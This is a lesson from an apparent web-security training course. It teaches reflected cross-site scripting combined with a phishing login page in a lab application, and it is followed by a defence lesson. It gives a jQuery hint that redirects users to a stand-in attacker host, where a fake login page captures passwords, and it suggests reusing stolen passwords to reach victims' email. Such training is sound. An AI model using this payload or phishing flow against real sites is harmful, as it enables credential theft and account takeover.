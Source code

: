 XSS 2 - Reflected XSS + Phishing!
---------------------------------

![image](img/sword.png)


We've successfully attacked the system with a Stored XSS attack. Now let's try another method - a **Reflected attack**!

Reflected attacks take advantage of unsanitized data that is **injected from the url** and passes it to the code.

### Read again!

If you want, you can browse through [this again](https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29).

### Attack!
Our vector of attack is going to be like so:

1. Using a [phishing](https://www.owasp.org/index.php/Phishing) page - a fake login page that has every login attempt send the credentials to your `serve` application. 
	> under `utils/phishing-page` you will find a phishing page I have already created for you

2. Did you notice the *welcome* message poping up once you login? 

	Use that to inject your script to the **gibson** page through the URL! Have the fake login page require the user to log in, after clicking on the anywhere in the page
	> Hint: this is how it is done with jQuery ```$("body").click(function(){window.location="http://www.attacker.com:3000/utils/phishing-page/Login.html"})```

3. You are trying to steal the victim's password! Make the new malicious flow as convincing as possible! 

.. 

..

You would be surprised [how many people](http://docs.apwg.org/reports/apwg_trends_report_q1_2014.pdf) fall victim to these kind of attacks..

### Rolling the attack further

This method of attack doesn't work on all users, but when an unsuspecting user "bites", you will get their *password* and not just a *session*!

If for example, they use the same password as their *gmail* account, you've basically just gotten access to their mail too - and from there - their whole life!

- - - 
#### Have you already hacked the planet? Does all base belong to you?
[good! NEXT!](05-XSS2-defence.md)